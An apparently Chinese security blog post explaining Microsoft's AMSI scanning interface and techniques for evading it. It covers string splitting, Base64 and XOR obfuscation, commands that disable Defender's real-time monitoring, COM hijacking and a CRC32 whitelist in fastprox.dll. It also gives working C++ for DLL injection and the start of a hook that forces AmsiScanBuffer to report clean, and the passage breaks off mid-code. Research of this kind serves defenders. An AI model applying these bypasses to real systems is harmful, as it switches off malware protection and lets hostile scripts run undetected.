初窥AMSI攻防对抗
什么是AMSI
AMSI（Antimalware Scan Interface）全称反恶意软件扫描接口，是微软提供的一个接口，官方文档地址如下：
https://docs.microsoft.com/en-us/windows/win32/amsi/antimalware-scan-interface-portal
ASMI允许应用程序和服务与计算机上存在的任何反恶意软件产品集成。AMSI为终端用户及其数据，应用程序和工作负载提供了增强型的恶意软件防护。
ASMI已集成到下列组件中：
- 用户帐户控制或UAC（EXE，COM，MSI或ActiveX安装的高度）
- PowerShell（脚本，交互使用和动态代码评估）
- Windows脚本主机（wscript.exe和cscript.exe）
- JavaScript和VBScript
- Office VBA宏
AMSI的工作原理
官方给出的框架如下：

当ASMI打开时，其他任何程序都可以调用它，同时任何经过注册的防护软件都可以让它执行任务。
在实际工作过程中，举个例子，这个例子通过异或加密，用来下载互联网上的资源，

我们可以通过直接在PS中进行输入来确保没有通过文件执行（这可能可以绕过部分防护软件的检测）这也时我们通常说的无文件攻击，因为以这种形式产生的攻击通常驻留在内存中，常规的查杀方法难以检测。
微软给出了一个例子，通过PS执行了一个脚本，被ASMI拦截

同时，AMSI还能应用到宏中，用于检测VBA和宏中是否携带有恶意操作

上图经过了如下步骤：
-
用户收到包含（恶意）宏的文档，该宏通过采用混淆，受密码保护的文件等技术来规避静态防病毒软件的扫描。
-
然后，用户打开包含（恶意）宏的文档。如果文档在“受保护的视图”中打开，则用户单击“启用编辑”以退出“受保护的视图”。
-
用户单击“启用宏”以允许宏运行。
-
在运行宏时，VBA运行时使用循环缓冲区记录[1]数据和与Win32，COM和VBA API调用有关的参数。
-
当观察到被认为具有高风险的特定Win32或COM API（也称为触发器）[2]时，宏执行将暂停，并将循环缓冲区的内容传递给AMSI。
-
注册的AMSI反恶意软件服务提供者做出判决，以指示该宏行为是否是恶意的。
-
如果该行为是非恶意的，则继续执行宏。
-
否则，如果该行为是恶意的，则Microsoft Office将关闭该会话以响应警报[3]，并且AV可以隔离该文件。
对抗方式的进化过程
了解了ASMI的原理，我们可以知道它的大致工作方式，同时也知道了作用原理
特定字符匹配
以下为一段PS示例代码，现在是正常的代码，通常在攻防对抗的过程中会变得更为复杂：

安全人员可以编写规则来检测其中的代码，例如对字符串的匹配，规则为匹配Write-Host'pwnd！',这时运行这段代码就会被ASMI拦截。这时候基础的对抗就应运而生，如果目标使用的是上述的全字符匹配，黑客通过拆分的方式即可绕过

代码仿真
这时候的简单规则被方便绕过，因此安全人员转而进行代码仿真，即执行语句的方式来判断是否有恶意行为，然而，由于拼接字符串的方法过于多样，黑客们又可以轻松绕过，例如非常常见的Base64编码，这种形式的简单加密手段在蚁剑中也很常见

越来越常见的攻击方式也会加速策略的更新，安全研究人员又加上了对base64的解码仿真。
进而，黑客又通过其他方式进行攻击，例如采取其他手段进行加密（异或加密）

这时又加大了检测的难度，于是安全人员又通过加密和混淆方式进行签名检测，再进行最终的行为检测，如果黑客将脚本的功能伪装成和正常脚本一样则又无法检测了。
常见绕过方式
禁用AMSI
首先最简单粗暴的办法肯定是禁用，只要AMSI不加载自然就不会拦截，其他杀软也同理，在退出或禁用状态下实时防护通常不会生效。查阅资料后可以通过设置注册表键值实现。正常情况下在拦截后我们可以看到事件查看器中留下的记录如下图所示：

在部分版本的Windows中，可以将HKCU\Software\Microsoft\Windows Script\Settings\AmsiEnable的表项值置为0
也可以直接在PS中执行命令关闭WD的实时防护
Set-MpPreference -DisableRealtimeMonitoring $true
关闭时的事件也会被记录：

拼接混淆
可以看到在上文中的第一个例子即是通过了加密混淆的，但是仍然被ASMI查杀了，因此在对抗的过程中出现了新的对抗方式。以下主要分析一些常见的分析方式：
上述方式均为官方文档中所描述的，在实战过程中，还是需要在自己的机器上跑一遍，在17763版本的win10上默认规则下可以看到之前的拼接方式仍然有效

接下来在18363的机器上进行测试,由于这个版本不直接拦截amsiutils，因此使用Invoke-mimikatz进行测试

但是很容易发现在实际执行的过程中并不会如此简单，可以尝试其他方式绕过，比如XOR加密，或者base64加密。
加密混淆
Base64加密
这时base64中最简单的加密样例

在实际过程中可能更为复杂，以下为一个样本中的加密方式：

从图上可以很清晰的知道存放了一段base64数据，首先将base64数据解密，使用gzip解压，解压的数据进行执行。
COM劫持
寻找优先加载并无效的COM表项，在注册表中将Provider的路径指向到无效路径。这样，Powershell中的AMSI功能将无法加载，从而失效。

劫持之后的效果

不过这个漏洞在2017年5月份的16232已经修复了，那么接下来我们就来探索一下高级绕过方式。
高级绕过方式的探索与研究
在研究高级绕过方式之前，我们先对AMSI进一步研究，结合之前的绕过方式，来着重分析AMSI的dll文件，我们来研究一下拦截机制，在分析的过程中发现power shell在启动时调用了AMSI.dll。

通过dll analyzer打开，在export中看到导出的函数

AmsiCloseSession
AmsiInitialize
AmsiOpenSession
AmsiScanBuffer
AmsiScanString
AmsiUacInitialize
AmsiUacScan
AmsiUacUninitialize
AmsiUninitialize
DllCanUnloadNow
DllGetClassObject
DllRegisterServer
DllUnregisterServer
对应地，在IDA中调试时也可以获取到Export的函数

根据官方文档我们可以得到扫描缓冲区的函数为AmsiScanBuffer和AmsiScanString以及AmsiUacScan
另外根据以下PS指令列出了其他组件
$UserPEs = Get-CimInstance -ClassName CIM_DataFile -Filter 'Drive = "C:" and (Extension = "exe" or Extension = "dll")' -Property 'Name' | Select -ExpandProperty Name
$AMSIReferences1 = $UserPEs | % { Select-String -Encoding ascii -LiteralPath $_ -Pattern 'amsi\.dll' }
$AMSIReferences2 = $UserPEs | % { Select-String -Encoding unicode -LiteralPath $_ -Pattern 'amsi\.dll' }
$AMSIReferences1.Path
$AMSIReferences2.Path
上述代码的作用为通过WMI来枚举所有的exe和dll，可以通过Select-String方式来获取文件中包含AMSI.dll的文件,由于列出的文件过多（主要是重复），因此就筛选去重了一下得到以下七个：
%windir%\System32\consent.exe
%windir%\System32\jscript.dll
%windir%\System32\vbscript.dll
%windir%\System32\wbem\fastprox.dll
%windir%\Microsoft.NET\assembly\GAC_MSIL\System.Management.Automation\v4.0_3.0.0.0__31bf3856ad364e35\System.Management.Automation.dll
%windir%\Microsoft.NET\Framework64\v4.0.30319\clr.dll
%Program Files%\Common Files\microsoft shared\VBA\VBA7.1\VBE7.DLL
其中consent.exe用于用户帐户控制，和UAC相关；jscript和vbscript用于控制vbs和js脚本；fastprox.dll则是WMI中的一个组件；System.Management.Automation.dll用于对powershell的控制；clr属于.NET的运行环境；VBE7.dll是对Office中VBA宏的支持。
由此可见AMSI深入到了各个系统组件中，包括调用的脚本，宏和powershell指令等。
接下来具体看看其他文件，由于不知道WMI如何调用，因此可以通过Get-Process | Where-Object { $_.Modules.ModuleName -contains ‘fastprox.dll’ }命令来列出哪些进程加载了fastprox.dll

以进程KillerAnalyticsService为例，KillerAnalyticsService是我的微星笔记本自带的Killer网卡的分析服务，可以看到导出的服务中只有一项：

接下来试试系统进程（这个应该会多一些）由此可见与WMI交互的进程都会调用这个dll

既然我们通过对文件中字符串的搜索发现了AMSI.dll那就进一步跟一下fastprox.dll，在sub_180031AE8中找到了ASMI的调用

我们可以看到有非常多的各种方法执行后都会加载该函数，在IDA的图表视图中较为复杂

不过在对上级函数的分析中发现只有在当前进程不是由wmiprvse.exe发起时才会调用AMSI
接着来着重点AMSI调用部分

在跟踪相关函数后发现其中还有不少函数都会调JAmsiRunScanner，但主要还是JAmsiProcessor会调用JAmsiRunScanner，因此推测很可能由该函数传入操作，进一步对比后发现了其他函数均对应IWbemServices interface的相关方法，在IWbemServices的官方文档中有详细介绍，唯独没有Put方法对应，大概率就是通过这个方法传入扫描内容了。
新建一个事件监听器进行测试

创建一个本地CIM会话来枚举远程WMI连接，完成WMI交互，然后停止捕捉，再然后通过PS来识别任意WMI事件


通过对事件的识别，我们发现其中的某由svchost发起的进程包含了WMI事件（这个识别起来是真的不容易，太难了）通常系统会经常使用WMI进行一些操作，但是不一定会被记录，在继续跟进了DLL后发现需要经过一系列的判断才会进行记录


这个函数有一个神奇的方法名和一连串的比较

当只有特定值匹配时才会记录
特定值为
788C9917h,96B23E8Ah,0B8DA804Eh,0C0B29B3Dh,0D16F4088h,0D61D2EA7h,0EF726924h,0F837EFC3h
但是因为逻辑过于复杂，加上本人才疏学浅并没有发现什么规律，在查阅资料后发现这个其实是对WMI操作的CRC32的校验，这个暂时还没有太过深入的研究

最终也得到了几个值，其中前半部分相同，后面有几个不同，因此推测不同的系统对WMI操作的CRC32校验和比较也不同，是一个白名单的制度，对白名单中的值不进行记录，因此我们可以通过构造特殊的payload，通过白名单校验和的方式绕过AMSI的检测。
DLL注入
那么为什么这样就不拦截了呢，
通过对官方文档的进一步阅读，发现了其实是调用AmsiScanBuffer这个函数来实现的
HRESULT AmsiScanBuffer(
HAMSICONTEXT amsiContext,
PVOID buffer,
ULONG length,
LPCWSTR contentName,
HAMSISESSION amsiSession,
AMSI_RESULT *result
);
传递给AmsiScanBuffer函数的最后一个参数是一个枚举类型指针名字为result，这个result将决定执行这个脚本是否是恶意。
typedef enum AMSI_RESULT {
AMSI_RESULT_CLEAN,
AMSI_RESULT_NOT_DETECTED,
AMSI_RESULT_BLOCKED_BY_ADMIN_START,
AMSI_RESULT_BLOCKED_BY_ADMIN_END,
AMSI_RESULT_DETECTED
};
如果我们可以控制该函数的返回结果，比如将result设置为一个固定的值，这个值在执行普通文件和恶意文件时显然不同，只需要一直返回正常值理论上就不会触发拦截。
在分析过程中发现这个DLL并没有其他方式去进行额外保护，而目前多数杀软都会对自己的进程进行保护，通常通过内核驱动保护的方式实现，而amsi.dll并没有类似保护，接下来就进行深入一些的研究。
首先针对dll想到的办法就是dll注入，github上有一个非常好用的injectAllTheThings项目.
不过也可以自己编写，在demo演示上位了方便没有采用庞大的项目，找了一个大佬写好的现成代码，可参考以下示例：
#include <iostream>
#include <windows.h>
#include <TlHelp32.h>
//Opens a handle to process then write to process with LoadLibraryA and execute thread
BOOL InjectDll(DWORD procID, char* dllName) {
char fullDllName[MAX_PATH];
LPVOID loadLibrary;
LPVOID remoteString;
if (procID == 0) {
return FALSE;
}
HANDLE hProc = OpenProcess(PROCESS_ALL_ACCESS, FALSE, procID);
if (hProc == INVALID_HANDLE_VALUE) {
return FALSE;
}
GetFullPathNameA(dllName, MAX_PATH, fullDllName, NULL);
std::cout << "[+] Aquired full DLL path: " << fullDllName << std::endl;
loadLibrary = (LPVOID)GetProcAddress(GetModuleHandle("kernel32.dll"), "LoadLibraryA");
remoteString = VirtualAllocEx(hProc, NULL, strlen(fullDllName), MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE);
WriteProcessMemory(hProc, remoteString, fullDllName, strlen(fullDllName), NULL);
CreateRemoteThread(hProc, NULL, NULL, (LPTHREAD_START_ROUTINE)loadLibrary, (LPVOID)remoteString, NULL, NULL);
CloseHandle(hProc);
return TRUE;
}
//Iterate all process until the name we're searching for matches
//Then return the process ID
DWORD GetProcIDByName(const char* procName) {
HANDLE hSnap;
BOOL done;
PROCESSENTRY32 procEntry;
ZeroMemory(&procEntry, sizeof(PROCESSENTRY32));
procEntry.dwSize = sizeof(PROCESSENTRY32);
hSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
done = Process32First(hSnap, &procEntry);
do {
if (_strnicmp(procEntry.szExeFile, procName, sizeof(procEntry.szExeFile)) == 0) {
return procEntry.th32ProcessID;
}
} while (Process32Next(hSnap, &procEntry));
return 0;
}
int main(int argc, char** argv)
{
const char* processName = argv[1];
char* dllName = argv[2];
DWORD procID = GetProcIDByName(processName);
std::cout << "[+] Got process ID for " << processName << " PID: " << procID << std::endl;
if (InjectDll(procID, dllName)) {
std::cout << "DLL now injected!" << std::endl;
} else {
std::cout << "DLL couldn't be injected" << std::endl;
}
}
那么DLL注入已经实现了，接下来就是注入特定进程，根据之前的研究结果，就来创建一个DLL和特定函数
#include <Windows.h>
#include <detours.h>
#include <amsi.h>
#include <iostream>
#pragma comment(lib, "amsi.lib")
#define SAFE "SafeString"
static HRESULT(WINAPI* OriginalAmsiScanBuffer)(HAMSICONTEXT amsiContext,
PVOID buffer, ULONG length,
LPCWSTR contentName,
HAMSISESSION amsiSession,
AMSI_RESULT* result) = AmsiScanBuffer;
//Our user controlled AmsiScanBuffer
